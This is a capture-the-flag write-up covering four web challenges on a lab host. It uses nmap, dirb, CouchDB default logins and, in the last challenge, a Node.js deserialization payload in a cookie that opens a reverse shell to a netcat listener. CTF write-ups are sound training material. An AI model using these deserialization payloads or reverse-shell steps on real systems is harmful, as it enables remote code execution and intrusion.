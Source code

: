 # CTFFriday 2020 August Week 4

* Date: 28th August 2020
* Time: 2:00 to 3:00 PM


## Overview

There were 4 challenges in this CTF related to web. CouchDB was used at the backend and we exploited Node JS deserialization to get the final flag.

## Tools Used
- BurpSuite
- Nmap
- Dirb


I started the CTF with port scanning using nmap tool.

```nmap -p- 10.8.0.14```

<kbd>![](NSCTFAUGW4/0.png)</kbd> 

## First Challenge

```
Description:

Sale team will help you to solve the first flag.

http://10.8.0.14/
```

In the challenge description, I got an URL and I visited that URL.

<kbd>![](NSCTFAUGW4/1.png)</kbd>

I also got the hint that "Sales" team will help me to get the flag so I enumerated the directories using **dirb** tool.

```dirb http://10.8.0.14/```
 
<kbd>![](NSCTFAUGW4/2.png)</kbd>

I visited the "sales" directory and I got the first flag.

<kbd>![](NSCTFAUGW4/3.png)</kbd>

*Flag : nsctf{Y0u_S0lved_Easy_fl@g!}*

## Second Challenge

```
Description:

Find out sales team's confidential details which stored on same server.
```

I clicked on "Confidential Details" button because challenge description says that I need to check confidential details.

<kbd>![](NSCTFAUGW4/4.png)</kbd>

After reading ```confidentials.txt``` file, I got the idea that **CouchDB** is used at backend and I need to login using common username and password combination. From the nmap scan we also got that port number ```5984``` is open and it is the default port of CouchDB. Now I need to find the login page. So I searched a bit regarding the default login page of CouchDB and I got that I need to visit the ```_utils``` directory.

<kbd>![](NSCTFAUGW4/5.png)</kbd>

I used  our common username and password for login. After login, I found one database named ```flag```.

<kbd>![](NSCTFAUGW4/6.png)</kbd>

 In ```permissions``` configuration of the database I got the flag.

<kbd>![](NSCTFAUGW4/7.png)</kbd>

*Flag : nsctf{S0m3_pr0+ect!0n_!5_b3tt3r_th@n_n0n3}*

## Third Challenge

```
Description:

HR Team store offer letter on vulnerable server. Its leaked by someone.
```

After that I checked the ```links``` database.

<kbd>![](NSCTFAUGW4/8.png)</kbd>

There were 4 documents in links database. Each document contains a directory link.

<kbd>![](NSCTFAUGW4/9.png)</kbd>

From the description, I got the idea that I have to look for HR directory.

<kbd>![](NSCTFAUGW4/10.png)</kbd>

So I visited the ```HR-Team/offer-letters.html```. There were 5 PDF links and I visited each link

<kbd>![](NSCTFAUGW4/11.png)</kbd>

In 4th PDF, I found the third flag.

<kbd>![](NSCTFAUGW4/12.png)</kbd>

*Flag : nsctf{Y3s_You_d!d_!+!}*

## Fourth Challenge

```
Description:

Detect the vulnerability in HR page and exploit it to get the flag!
```

From nmap scan, I found that port number 3000 is open. So I visited that port from the web browser. It was asking for username and password. I tried to login using common username and password.

<kbd>![](NSCTFAUGW4/13.png)</kbd>

After login, application was showing "Under progress" page.

<kbd>![](NSCTFAUGW4/14.png)</kbd>

I intercepted the the request of the same page and found that application is sending cookie in request. Send the request to Buro Suite repeater and observe the response. From response I came to know that it can be Node JS deserialization. So I tried to exploit this vulnerability to get Remote Code Execution.  

<kbd>![](NSCTFAUGW4/15.png)</kbd>

I used the [script](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) from github to get the reverse shell.

<kbd>![](NSCTFAUGW4/16.png)</kbd>

Run the downloaded script to generate the payload.
```python nodejsshell.py <YOUR_IP> <LISTENING_PORT>```

<kbd>![](NSCTFAUGW4/17.png)</kbd>

Put the payload between ```{"rce":"_$$ND_FUNC$$_function (){ <YOUR_PAYLOAD> }()*}```.

<kbd>![](NSCTFAUGW4/18.png)</kbd>

Encode the payload in base64.

<kbd>![](NSCTFAUGW4/19.png)</kbd>

Now refresh the same page and intercept the request.

<kbd>![](NSCTFAUGW4/20.png)</kbd>

Start the listener using  ```nc -lvp 4444``` and replace the cookie value with your encoded payload and forward the request.

<kbd>![](NSCTFAUGW4/21.png)</kbd>

You got the reverse shell!!

<kbd>![](NSCTFAUGW4/22.png)</kbd>

Now you just need to observe the flag.

<kbd>![](NSCTFAUGW4/23.png)</kbd>

*Flag : nsctf{H3y_y0u_d!d_!t}*

